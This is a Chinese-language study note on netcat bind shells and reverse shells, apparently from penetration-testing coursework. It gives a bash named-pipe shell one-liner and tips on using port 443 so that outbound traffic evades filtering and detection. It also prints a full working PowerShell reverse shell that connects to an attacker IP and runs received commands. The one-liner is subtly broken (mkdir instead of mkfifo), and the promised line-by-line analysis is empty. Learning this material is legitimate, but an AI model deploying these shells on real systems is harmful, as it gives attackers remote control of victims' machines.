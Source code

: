 目标端口上的执行 的值
接收方目标端口的值

![[Pasted image 20240309192229.png]]


攻击方端口的值
![[Pasted image 20240309192153.png]]

小结：上述操作仅仅是为了建立tcp链接 模拟聊天进行即使通信传输的过程 并未与操作系统跟shell进行交互

二 使用nc建立交互shell
目的：建立一个交互性的bashshell 的反弹端口  从目的地址客户端 连接到攻击方 的地址 让我们能在攻击方使用到这个
命令执行 
target  ：
rm -rf /tmp/f ; mkdir /tmp/f; cat/tmp/f | /bin/bash -i 2>&1|nc -l 10.129.119.185 7654 >/tmp/f
具体翻译如下：
1 存储在/tmp文件下的通常是临时文件，这样做可以防止该命令永久保存导致信息泄露容易被对方溯源 
2 rm -rf 删除原有/tmp/f文件下的所有已经保存的信息 后
重新创建一个文件夹 /tmp/f 后进入到该目录内 
3 在这个目录中输出一条 建立/bin/bash客户端的脚本 同时-i提供了 交互 让我们与bash脚本可以产生交互系统、
同时在 2>&1 2 提供了是错误信息  就是将bash链接过程中的错误信息输出到输出端 ，让我们可以看见及时反馈的错误信息 
&  让操作系统 误认为是进程编号而不是一个名称 


插入：
1) stdin 代表文件描述符0  表示标准输入 
 默认状态下是从用户中读取输入的地方，当在终端中输入命令的时候 通过stdin输入给正在运行程序
 2) stdout 文件描述符1 默认下 stdout 输出结果地方 会显示在终端中
3) stderr 文件描述符2 这个是将报错信息进行输出的地方 
| nc -l 等待接受输入消息 ip地址是本机ip 开放本机ip地址 的xxx端口进行等待对方输入链接过来 > 进行重定向到输入到/tmp/f这个文件中

注意：此权限 可在用户态跟核心态下均可执行


REverse  shell
反向链接设立的目的 ：
 管理员可能忽视出站链接 ，可能会忽视从受害者机器到攻击机的方式， 这是一个反向shell的备忘单，如果忘记的时候 可以通过此进行操作
 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


当想侦听到目标的地址时候   在攻击者的kali等某些攻击机上进行：sudo nc -lvnp 443技术  侦听443端口的信息 后 
攻击机作为服务器 ， 443端口  443作为一个公共端口，通常用443端口
1 为什么要用443  而不用别端口？
因为443管理的时候 是 启用https服务，这个通常是组织进行正常业务往来的时候通常会采用的端口号443 所以不会阻止443的流量
注：在第七层waf 进行数据包检测  可以检测公共端口的出站的反向shell  不止是ip地址跟端口还有的是waf的规则，这涉及到waf的规避防范技术


2 在window启用 shell命令进行尝试搭建简单的tcp链接 链接涉及到的ip地址是 攻击方的ip地址 正所谓反向的意思就是这个 
在受害者端链接到攻击方 

具体payload的代码如下：
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
};
$client.Close()
```
具体逐行解析：
```
```